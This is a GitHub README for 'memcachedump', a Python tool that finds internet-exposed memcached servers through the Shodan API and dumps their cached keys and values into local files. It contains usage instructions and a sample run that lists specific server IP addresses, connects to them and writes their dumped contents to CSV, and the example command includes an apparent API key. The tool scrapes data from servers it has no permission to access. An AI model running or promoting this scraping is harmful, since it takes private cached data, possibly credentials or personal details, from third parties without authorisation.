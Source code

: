![memcachedump Infographic](https://github.com/JLospinoso/memcachedump/raw/master/memcachedump.png)

`memcachedump` is a tool for dumping the cache contents of exposed memcached servers into local text files.

You'll need Python 3 and a [Shodan API Key](https://developer.shodan.io/api).

# Running the tool:

```
> python mcd.py --help
usage: mcd.py [-h] [--key KEY] [--out OUT] [--json]

Scrape data from memcached servers.

optional arguments:
  -h, --help  show this help message and exit
  --key KEY   Shodan API key.
  --out OUT   Output directory for caches.
  --json      Output as JSON. (Default: CSV)
  --continue  Skip servers already listed in output directory ie continue a previous run
  --shuffle	  Shuffle the list of servers from Shodan so they're queried in a random order
```

You must supply your Shodan API `--key`. 

Optionally, you can specify an `--out` directory for the text files. By default, `mcd` writes to `./out`.

You can also specify `--json` output. By default, writes a CSV file.

# Example usage

```
> git clone git@github.com:JLospinoso/memcachedump.git
> cd memcachedump
> pip3 install shodan
> python3 mcd.py --key kpVD7oF01vn1I9q6AfqGeqA2wkqJu9up
Results found: 108877
[ ] Found memcached server at IP: 115.159.38.63
[ ] Found memcached server at IP: 37.220.12.242
[ ] Found memcached server at IP: 115.182.69.234
[ ] Found memcached server at IP: 37.187.205.112
[ ] Found memcached server at IP: 65.175.106.142
[ ] Found memcached server at IP: 217.112.131.172
[ ] Found memcached server at IP: 43.246.216.225
[ ] Found memcached server at IP: 123.30.189.230
...
[ ] Connecting to 115.159.38.63.
[ ] Found 5 key lengths at 115.159.38.63.
[ ] Found 5 keys at 115.159.38.63.
[-] Error connecting to 115.159.38.63: 'utf-8' codec can't decode byte 0xff in position 36: invalid start byte
[ ] Connecting to 37.220.12.242.
[ ] Found 1 key lengths at 37.220.12.242.
[ ] Found 1 keys at 37.220.12.242.
[ ] Dumped 1 key values from 37.220.12.242.
[+] Wrote CSV to out\37.220.12.242.csv
[ ] Connecting to 115.182.69.234.
[ ] Found 1 key lengths at 115.182.69.234.
[ ] Found 1 keys at 115.182.69.234.
[ ] Dumped 1 key values from 115.182.69.234.
[+] Wrote CSV to out\115.182.69.234.csv
[ ] Connecting to 37.187.205.112.
[ ] Found 1 key lengths at 37.187.205.112.
[ ] Found 2 keys at 37.187.205.112.
...
```

All results output to the `out` directory.
